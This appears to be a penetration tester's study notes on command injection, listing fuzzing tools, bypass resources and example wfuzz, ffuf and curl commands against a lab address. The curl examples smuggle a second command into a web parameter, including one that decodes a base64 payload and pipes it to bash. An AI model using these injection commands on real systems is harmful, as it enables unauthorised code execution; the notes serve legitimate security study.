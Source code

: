 # Command Injection

## Things to remember
  *  Commands and syntax will depend on the underlying OS, enumerate web stack properly
  *  Keep an eye out for filters such as case-sensitivity, whitespace removal, etc.
      *  PayloadsAllTheThings has a [list of bypass techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md)
  *  HackTricks has a page covering some [different exfil techniques](https://book.hacktricks.xyz/pentesting-web/command-injection)

## Useful tools
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) and [`ffuf`](https://github.com/ffuf/ffuf) for manually fuzzing web app inputs for command injection
  *  [`seclists`](https://github.com/danielmiessler/SecLists) for some command injection fuzzing lists
  *  [`ping`](https://linux.die.net/man/8/ping), [`curl`](https://curl.se/), and [`wget`](https://www.gnu.org/software/wget/) for generating network traffic upon injection
  *  [`tcpdump`](https://www.tcpdump.org/) and [`python3 web server`](https://docs.python.org/3/library/http.server.html) for sniffing network traffic generated upon injection
  *  [`base64`](https://linux.die.net/man/1/base64) for encoding more complex commands
  *  [`curl`](https://curl.se/) for performing command injection one-liners

## Fuzzing for command injection
  *  `wfuzz` and `ffuf` for command injection fuzzing
      *  Fuzz more than just parameters! Cookies, headers, etc.
  *  Carefully parse HTTP POST requests before using `wfuzz`
      *  Be specific with things like cookies, headers, URL structure, etc.
      *  Failing to provide these values can produce ineffective requests
  *  `ffuf` can read requests from a text file
      *  Easier handling of more complex POST requests
      *  No recursive grep, consider `Burp Intruder` in these cases
  *  Wordlists with injection techniques are best found on GitHub

```
wfuzz -w /path/to/cmd-inj.txt -b 'exampleCookie=cookieValue' 'http://10.0.0.1/cmd?param=FUZZ'
wfuzz -w /path/to/cmd-inj.txt -H 'exampleHeader: headerValue' -d 'param=FUZZ' 'http://10.0.0.1/cmd'
```

```
ffuf -request req.txt --request-proto http -w /path/to/cmd-inj.txt -v
```

## Exploiting command injection
  *  Successful injection may not be visible
      *  Consider a command that will generate network traffic
      *  `ping` and `tcpdump`, `curl` and `python3 web server`, etc.
  *  `base64` useful for avoiding string escape situations
  *  `curl` in-line HTTP GET parameters must be URL encoded

```
curl -G --data-urlencode 'param=;id' -b 'exampleCookie=cookieValue' 'http://10.0.0.1/cmd'
curl -k -X 'POST' -H 'exampleHeader: headerValue' --data-urlencode 'param=;base64 -d [BASE64 PAYLOAD]|bash' 'https://10.0.0.1/cmd'
```
